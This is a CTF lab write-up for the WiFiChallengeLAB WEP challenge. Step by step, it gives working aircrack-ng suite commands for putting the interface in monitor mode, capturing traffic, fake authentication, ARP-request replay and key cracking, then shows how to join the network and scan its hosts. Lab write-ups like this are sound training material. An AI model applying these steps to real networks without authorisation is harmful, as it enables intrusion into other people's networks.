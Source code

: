 ```yaml
---
title: Hack a WEP WiFi network
author: eMVee
date: 2023-11-21 20:00:00 +0800
categories: [CTF, WiFiChallengeLAB]
tags: [WiFi, OSWP, WiFiChallengeLAB, WEP]
render_with_liquid: false
---
```


One of the challenges on [WiFiChallengeLAB](https://wifichallengelab.com/) is hacking a WEP WiFi, yes it is old and yes it should not be used! Since I did the previous challenges it was time to hack a WEP WiFi. Fortunately, we never actually see these types of networks.

## Getting started
First we should kill all processes.
```bash
sudo airmon-ng check kill
```
Then we can start the network interface in monitor mode.
```bash
sudo airmon-ng start wlan0
```
Now we should search for WiFi networks with WEP encryption.
```bash
sudo airodump-ng --encrypt WEP wlan0mon
```

![Image](/assets/img/WriteUp/WiFiChallengeLAB/Pasted image 20231016211743.png){: width="700" height="400" }

There is a client active on this WEP network. This makes it easier to capture enough data to crack the password.

Capture data into a file, this file is input for aircrack-ng to crack the password
```bash
sudo airodump-ng -c 1 --bssid F0:9F:C2:AA:19:29 -w wifi-old wlan0mon
```

To generate some extra data to the AP we can launch a fake authentication to the AP
```bash
sudo aireplay-ng -1 3600 -q  10 -a F0:9F:C2:AA:19:29 wlan0mon
```

And generate some traffic by launching an ARP-request replay attack
```bash
sudo aireplay-ng --arpreplay -b F0:9F:C2:AA:19:29 -h BA:49:A9:53:A1:8C wlan0mon
```

## Crack the password
While this is running we could try crack the password
Crack the password with the data captured in a command earlier.
```bash
sudo aircrack-ng wifi-old-01.cap
```

![Image](/assets/img/WriteUp/WiFiChallengeLAB/Pasted image 20231016213002.png){: width="700" height="400" }

## Connect to the WEP network
The password (key) is found, so write this down in your notes. We need this key to connect to the WEP WiFi network.
To connect to the network we should create a configuration file.

```bash
nano wep.conf
```
The content should look like this.
```
network={
  ssid="wifi-old"
  key_mgmt=NONE
  wep_key0=<HERE-SHOULD-THE-KEY-BE-ENTERED>
  wep_tx_keyidx=0
}
```
Now we can connect to the WEP network with our configuration file.
```bash
wpa_supplicant -D nl80211 -i wlan2 -c wep.conf
```
We should try to retrieve an IP address from the DHCP server.
```bash
dhclient wlan2 -v
```
Then we could try to run arp-scan to identify some hosts in the network.
```bash
arp-scan -l -I wlan2
```
